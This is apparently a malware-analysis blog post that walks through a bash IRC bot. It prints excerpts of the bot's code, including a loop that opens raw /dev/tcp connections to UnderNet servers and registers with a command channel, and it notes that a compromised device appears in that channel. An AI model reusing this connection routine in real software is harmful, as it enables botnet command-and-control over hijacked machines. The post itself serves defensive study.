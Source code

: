 
#### Mapping IRC Servers

```bash
...
while [ true ]; do

  # Servers
  arr[0]="ix1.undernet.org"
  arr[1]="ix2.undernet.org"
  arr[2]="Ashburn.Va.Us.UnderNet.org"
  arr[3]="Bucharest.RO.EU.Undernet.Org"
  arr[4]="Budapest.HU.EU.UnderNet.org"
  arr[5]="Chicago.IL.US.Undernet.org"

  # Chooses a pseudorandom server
  rand=$[$RANDOM % 6]
  svr=${arr[$rand]}

  # Check if an established TCP connection exists between host and server
  eval 'exec 3<>/dev/tcp/$svr/6667;' #  Also, set new FD (3)
  if [[ ! "$?" -eq 0 ]] ; then
      continue # Skip back to the top of the loop if a connection already exists
      # NO `sleep` statement here... will check endlessly as fast as possible; silly
  fi
  ...
```

It appears that this bot uses the [UnderNet](https://www.undernet.org/) IRC system to establish connections with. Let's take a look at UnderNet— perhaps we can find IRC channels (specifically `#biret`) related to this malware. For reference, `#biret` is the channel that this script initiates connections to.

![Screenshot of UnderNet IRC channel list](/img/fishing-for-malware-4-1.webp)

*Sigh*. IRC... A relic that is perhaps best forgotten in some aspects. Two other users, which I have deliberately not shown here, are active at the time of writing this post in `#biret`. *In fact, one of the active users has the name of a compromised target device!*

#### Main Logic

```bash
...
  echo $NICK

  eval 'printf "NICK $NICK\r\n" >&3;'
  if [[ ! "$?" -eq 0 ]] ; then
      continue
  fi
  eval 'printf "USER user 8 * :IRC hi\r\n" >&3;'
  if [[ ! "$?" -eq 0 ]] ; then
    continue
  fi

  # Main loop
  while [ true ]; do
    eval "read msg_in <&3;" // Examine the contents of msg_in recieved from the TCP host-IRC connection

    # If msg_in is null, quit the main loop
    if [[ ! "$?" -eq 0 ]] ; then
      break
    fi

    # On IRC in = 'PING', respond 'PONG' via IRC
    # Presumably to test connectivity?
```
